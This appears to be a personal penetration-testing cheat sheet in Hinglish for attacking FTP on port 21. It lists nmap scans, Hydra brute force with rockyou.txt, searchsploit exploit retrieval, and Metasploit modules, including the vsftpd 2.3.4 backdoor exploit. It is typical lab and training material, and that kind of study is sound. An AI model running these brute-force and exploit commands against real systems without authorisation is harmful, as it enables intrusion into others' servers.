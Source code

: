 
---

# All port command

| **Command** | **Explanation (1 Line)** |
| --- | --- |
| 1] FTP (21) |  |
| `nmap -p 21 <target ip>` | Only FTP port scan |
| `nmap -p 21 <subnet>` | Subnet me kis-kis host ka **FTP port (21) open hai**, ye identify karta hai. |
| `nmap -sV -sC  <target ip> -p 21` | best |
| `nmap -sV -sC --script vuln <target_ip> -p 21` | vulnerability script use |
| `ftp <target>` | when anonymous login allow  Username: anonymous |
| `nc -nv <target> 21` | **Netcat Se FTP Service Check** |
| `hydra -l admin -P /usr/share/wordlists/rockyou.txt ftp://<target>` | **FTP Bruteforce (Hydra)** |
| nmap --script=ftp-syst -p 21 <target> | **FTP server ke system type aur version ki details nikalne ke liye** |
| nmap --script=ftp-brute -p 21 <target> | **FTP brute-force attack perform karne ke liye** |
| nmap -sV --script=ftp-login -p 21 <target> | Attempts login with credentials (default or supplied). with userlist and passlist |
| nmap --script=ftp-anon -p 21 <target> | **Anonymous FTP login allow hai ya nahi yeh check karta hai** |
| nmap --script=ftp-proftpd-backdoor -p 21 <target> | **ProFTPD vulnerability check karne ke liye** |
|  searchsploit vsftpd 2.3.4   |  version pata chle to ye command dal sakte hai |
|  searchsploit -m unix/remote/49757.py | aise hum doenload krege exploit ko   or use google github |
| python3 [49757.py](http://49757.py/) -h   | -h means help command to check use of exploit |
|  python3 [49757.py](http://49757.py/)  192.168.0.102 | usage: [49757.py](http://49757.py/) [-h] host    |
| msfconsole |  |
| search exploit vsftpd 2.3.4 |  |
| search ftp |  |
| use auxiliary/scanner/ftp/anonymous
set RHOSTS <target>
run
 | **Using msfconsole Anonymous Login Test Karo** |
| use auxiliary/scanner/ftp/ftp_login
set RHOSTS <target>
set USER_FILE /usr/share/wordlists/rockyou.txt
set PASS_FILE /usr/share/wordlists/rockyou.txt
run
 | **Brute-Force FTP Passwords** |
| use auxiliary/scanner/ftp/ftp_version | Detects FTP version. |
| use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS <target>
run
 |  **Exploit FTP Backdoor (vsftpd 2.3.4)** |
| use exploit/unix/ftp/vsftpd_234_backdoor | Exploits vsFTPd 2.3.4 backdoor vulnerability. |